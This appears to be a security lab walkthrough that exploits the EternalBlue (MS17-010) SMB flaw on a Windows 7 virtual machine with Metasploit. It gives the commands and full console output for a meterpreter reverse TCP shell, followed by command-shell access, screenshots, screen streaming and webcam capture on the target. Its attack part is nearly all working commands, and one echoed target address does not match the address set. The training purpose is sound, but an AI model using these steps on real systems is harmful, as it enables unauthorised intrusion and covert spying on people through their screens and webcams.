



# Windows Eternalblue [CVE-2017-143,144,145,146,148]

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Windows 7 | The Windows 7 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Windows 7 IP | The IP address of the Windows 7 VM. In my case it is 192.168.8.130. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search eternalblue`

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

### 3. Use the module

`use exploit/windows/smb/ms17_010_eternalblue`

`set PAYLOAD windows/x64/meterpreter/reverse_tcp` (this may be optional if your already have a payload configured when you select the module)

### 4. Check the module options

`options`

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded
                                              Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Sta
                                             ndard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 ta
                                             rget machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.130`

`set LHOST 192.168.8.147`

`set LPORT 4444`

```
RHOSTS => 192.168.8.142
LHOST => 192.168.8.147
LPORT => 4444
```

### 6. Run the exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] 192.168.8.130:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.8.130:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.8.130:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.8.130:445 - The target is vulnerable.
[*] 192.168.8.130:445 - Connecting to target for exploitation.
[+] 192.168.8.130:445 - Connection established for exploitation.
[+] 192.168.8.130:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.8.130:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.8.130:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.8.130:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.8.130:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.8.130:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.8.130:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.8.130:445 - Sending all but last fragment of exploit packet
[*] 192.168.8.130:445 - Starting non-paged pool grooming
[+] 192.168.8.130:445 - Sending SMBv2 buffers
[+] 192.168.8.130:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.8.130:445 - Sending final SMBv2 buffers.
[*] 192.168.8.130:445 - Sending last fragment of exploit packet!
[*] 192.168.8.130:445 - Receiving response from exploit packet
[+] 192.168.8.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.8.130:445 - Sending egg to corrupted connection.
[*] 192.168.8.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 192.168.8.130
[*] Meterpreter session 1 opened (192.168.8.147:4444 -> 192.168.8.130:49192) at 2023-03-29 04:41:52 -0400
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.8.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 7. Meterpreter session

Now you have a **meterpreter** session opened. This session will allow you to interact with the target.

```
meterpreter >
```

### 7. Open a shell on the target machine

`shell`

```
meterpreter > shell
Process 1116 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6EB6-ADFB

 Directory of C:\

23-01-2015  14:20    <DIR>          EXP750_7.6000.1197
14-07-2009  04:20    <DIR>          PerfLogs
20-10-2016  08:57    <DIR>          Program Files
07-06-2021  17:25    <DIR>          Program Files (x86)
24-06-2021  11:45    <DIR>          Users
06-12-2022  17:45    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  38.814.728.192 bytes free

C:\>
```

### 8. Capture the screen on the target machine

`screenshot`

```
meterpreter > screenshot 
Screenshot saved to: /home/kali/vaqZFiRO.jpeg
```



### 9. Stream the screen of the target machine

`screenshare`

```
meterpreter > screenshare 
[*] Preparing player...
[*] Opening player at: /home/kali/bpLkRVPC.html
[*] Streaming...
```



### 10. Capture image from the webcam on the target machine

`webcam_snap`

```
[*] Starting...
[+] Got frame
[*] Stopped
```

### 11. Stream from the webcam on the target machine

`webcam_stream`

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/kali/aZmtiTvX.html
[*] Streaming...
```



# Video

Video that resumes everything on this laboratory.


# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.